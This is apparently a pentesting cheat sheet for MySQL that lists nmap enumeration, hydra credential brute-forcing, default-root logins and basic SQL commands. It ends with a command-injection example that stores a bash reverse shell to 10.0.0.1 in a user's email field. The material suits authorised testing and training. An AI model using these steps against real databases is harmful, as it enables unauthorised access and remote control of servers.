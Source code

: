 ```yaml
---
title: MySQL Pentesting
description: It is a relational database management system. A default port is 3306.
tags:
    - Database
    - Privilege Escalation
refs:
date: 2023-04-10
draft: false
---
```


## Enumeration

```sh
nmap --script mysql-info -p 3306 <target-ip>
nmap --script mysql-enum -p 3306 <target-ip>
nmap --script mysql-brute -p 3306 <target-ip>
nmap --script mysql-databases -p 3306 <target-ip>
nmap --script mysql-users -p 3306 <target-ip>
nmap --script mysql-* -p 3306 <target-ip>
```

### Brute Force Credentials

```sh
hydra -l username -P passwords.txt <target-ip> mysql
hydra -L usernames.txt -p password <target-ip> mysql
```

<br />

## Connect

**"mysql"** command can be replaced with **"mariadb"** .

### Local

```sh
# No password
mysql -u username

# With Password
mysql -u username -p

# Specity database name
mysql -u username -p database_name

# Execute commands
mysql -u username -p database_name -e "show databases;"
echo '<password>' | mysql -u username -p database_name -e "show databases;"
```

### Remote

```sh
mysql -u username -p -h <target-ip> -P 3306

# Without password (remove -p)
mysql -u username -h <target-ip> -P 3306

# Specify database (-D)
mysql -u username -p -h <target-ip> -D database_name

# Default credential (username: root, no password)
mysql -u root -h <target-ip> -P 3306
```

<br />

## Commands

After connecting MySQL, you can load a local .sql file.  
Note that you need to change the current directory to the directory in which the .sql file is located.

```sh
> source example.sql
```

Belows are basic commands.

```sh
# Display databases
> show databases;

# Switch to the database
> use db_name;

# Display tables in the current database
> show tables;
# Display tables and table type
> show full tables;
# Display tables in the database
> show tables from <database>;
# Display tables which names start with 'user'
> show tables like 'user%';
# Display tables which names start with 'user' in the database
> show tables from <database> like 'user%';

# Display columns in a given table
> show columns from <table>;

# Display everything in the table
> select * from <table>;

# Create new table
> create table table_name(column_name column_type);
> create table table_name(user_id int, user_name varchar(40));

# Create an user-defined function
> create function func_name(param1, param2) returns datatype;
> create function new_fund(age integer) returns integer;

# Use a function
> select func_name(param1, param2);

# Insert new record to a given table
> insert into <table> values(value1, value2);

# Update data in a given table
> update <table> set <column>='<value>'
> update <table> set <column1>='<value1>',<column2>='<value2>'
# e.g.
> update users set role='admin' where username='john';
```

### Command Injection

We can inject the OS command to column values e.g. email address.  
Depending on the situation, we may be able to execute arbitrary command.

```bash
# Update existing user email to execute reverse shell
> update exampledb.users SET email='admin@shell|| bash -c "bash -i >& /dev/tcp/10.0.0.1/1234 0>&1" &' where name like 'admin%';
```
